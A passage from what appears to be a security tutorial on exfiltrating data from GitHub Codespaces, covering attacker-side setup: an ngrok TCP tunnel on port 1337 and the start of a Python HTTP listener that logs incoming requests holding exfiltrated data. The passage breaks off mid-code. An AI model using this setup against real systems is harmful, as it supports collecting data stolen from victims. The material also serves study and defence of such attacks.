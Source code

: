 !!! success "Setting up ngrok on Attacker Machine"
    ```
    ~$ ./ngrok tcp 1337
    ```

    ![Architecture](../images/exfil-codespaces/ngrok.png)

We will run an HTTP listener on port 1337 to capture all incoming HTTP traffic, allowing us to inspect and log the exfiltrated data as it arrives.

!!! success "Setting up HTTP Listener to run on Attacker Machine"

    ```python
    import argparse
    from http.server import BaseHTTPRequestHandler, HTTPServer
    from urllib.parse import parse_qs, urlparse
    import json

    class RequestLoggerHandler(BaseHTTPRequestHandler):
        def _log_request(self, method):
            print(f"\n--- {method} Request Received ---")
            print(f"Path: {self.path}")
            print(f"Headers:\n{self.headers}")

            # Log GET parameters
            if method == 'GET':
                query = urlparse(self.path).query
                params = parse_qs(query)
                print(f"GET Parameters: {json.dumps(params, indent=2)}")

            # Log POST/PUT body parameters
            if method in ['POST', 'PUT']:
                content_length = int(self.headers.get('Content-Length', 0))
                body = self.rfile.read(content_length).decode('utf-8')
                print(f"Raw Body: {body}")
                try:
                    # Try JSON first
                    data = json.loads(body)
                    print(f"Parsed JSON Body: {json.dumps(data, indent=2)}")
                except json.JSONDecodeError:
                    # Fall back to URL-encoded
                    data = parse_qs(body)
                    print(f"Parsed Form Body: {json.dumps(data, indent=2)}")
